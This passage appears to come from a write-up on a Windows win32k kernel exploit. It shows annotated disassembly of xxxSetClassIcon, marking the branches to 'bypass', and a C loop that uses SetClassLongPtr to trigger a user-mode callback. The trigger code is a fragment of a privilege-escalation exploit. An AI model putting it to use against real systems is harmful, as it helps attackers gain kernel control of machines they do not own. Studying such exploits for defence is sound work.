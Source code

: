     /*


        .text:BF91B33C                 mov     edi, [ebp+pclsBase]
        ..............
        ..............
        .text:BF91B346                 mov     eax, [edi+58h]
        .text:BF91B349                 cmp     eax, [ebp+arg_8] ; new and  old  icon must be  diffrent
        .text:BF91B34C                 jz      loc_BF91B42C     ----------->>> we  need bypass this
        ..............
        ..............
        .text:BF91B396 loc_BF91B396:                           ; CODE XREF: xxxSetClassIcon(x,x,x,x)+68j
        .text:BF91B396                 lea     esi, [edi+58h]  ;  EDI
        .text:BF91B399                 mov     ecx, esi
        .text:BF91B39B                 mov     edx, [ebp+arg_8]
        .text:BF91B39E                 call    @HMAssignmentLock@8 ; HMAssignmentLock(x,x)
        .text:BF91B3A3                 cmp     dword ptr [edi+44h], 0
        .text:BF91B3A7                 jz      short loc_BF91B3B4  ---------->>> we  need  bypass this
        .text:BF91B3A9                 cmp     dword ptr [esi], 0
        .text:BF91B3AC                 jnz     short loc_BF91B3B4  ---------->>> we  need  bypass this
        .text:BF91B3AE                 push    edi
        .text:BF91B3AF                 call    _xxxCreateClassSmIcon@4 ; xxxCreateClassSmIcon(x)

    */

    do
    {
        if (!RegisterClassExW(&wc))
        {
            return 0;
        }

        // Step 2: Creating the Window
        hwnd = CreateWindowEx(
            WS_EX_CLIENTEDGE,
            g_szClassName,
            L"The title of my window",
            WS_OVERLAPPEDWINDOW,
            CW_USEDEFAULT, CW_USEDEFAULT, 240, 120,
            NULL, NULL, NULL, NULL);

        if (hwnd == NULL)
        {
            return 0;
        }

        ShowWindow(hwnd, NULL);
        UpdateWindow(hwnd);
        // Triger UserMode CallBack
        SetClassLongPtr(hwnd, GCLP_HICON, (LONG_PTR)LoadIcon(NULL, IDI_QUESTION));

        SendMessageW(Secondhwnd[0], WM_NULL, NULL, NULL);
    } while (!success);
}
{% endhighlight %}

   
